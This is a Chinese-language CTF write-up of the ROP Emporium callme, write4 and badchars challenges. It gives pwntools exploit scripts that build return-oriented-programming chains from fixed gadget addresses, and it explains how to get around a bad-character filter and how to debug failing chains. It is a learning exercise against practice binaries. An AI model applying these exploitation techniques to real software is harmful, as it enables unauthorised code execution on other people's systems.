 ```python
payload += p64(rsirdx) + p64(0xcafebabecafebabe) + p64(0xd00df00dd00df00d)
payload += p64(elf.plt['callme_two'])
payload += p64(rdi) + p64(0xdeadbeefdeadbeef)
payload += p64(rsirdx) + p64(0xcafebabecafebabe) + p64(0xd00df00dd00df00d)
payload += p64(elf.plt['callme_three'])

io.sendlineafter(b'> ', payload)
io.interactive()
```

# 4. write4

这一题虽然有一个print_file函数，但是对应的参数在write4文件中没有给出，需要我们自己构造。仔细使用IDA观察会发现，程序特地给了我们一个gadget实现任意地址写。bss段或data段能够作为我们构造的字符串'flag.txt'的存放位置，那么我们就将这个字符串写到这些可写段中，再将其作为参数传入print_file函数即可。

payload:

```python
from pwn import *
context.log_level='debug'

io = process('./write4')
elf = ELF('./write4')
useful_gadget = 0x400628
r14r15 = 0x400690
rdi = 0x400693
write_addr = 0x601028
main_addr = 0x400607

payload = cyclic(32 + 8)
payload += p64(r14r15) + p64(write_addr) + b'flag.txt'
payload += p64(useful_gadget)
payload += p64(r14r15) + p64(write_addr + 8) + p64(0)
payload += p64(useful_gadget)
payload += p64(rdi) + p64(write_addr)
payload += p64(elf.plt['print_file'])

io.sendlineafter(b'> ', payload)

io.interactive()
```

# 5. badchars

这道题的pwnme函数中添加了一个检查，不允许出现'x'、'a'、'g'、'.'这4个字符。但是程序中给出了任一地址加减的gadget，我们先写入其他值，然后通过加减将这个值变成我们想要的值就可以了。但是这里需要注意一点：如果在data段的开头——0x601028写入，程序会崩溃。因为我们需要绕过'x'字符，就势必在应该写入x的地方一开始不能写入x。如果在此处写字符串，那么字符'x'的位置应该在0x60102E，但是 **2E正好是'.'的ASCII码，会被强制转换，从而导致ROP失败。** 不过我们还是可以在0x601030写入。

这里提供一个ROP调试的省时小技巧。当我们构造的ROP多次失败时，如果这个ROP是一次注入，那么我们是无法进行调试的。这种情况下我们可以在ROP中间插入一个有反馈的代码段地址，如main函数开头。我们将这个main函数开头插入到ROP的不同位置，从前往后查找，前面的ROP如果正常执行，那么我们可以及时地得到反馈，如果错误则会崩溃，我们就会知道哪一步ROP之前出了错误。如此从前往后，我们就可以找到，到底是哪一步ROP有问题，从而进行修改。
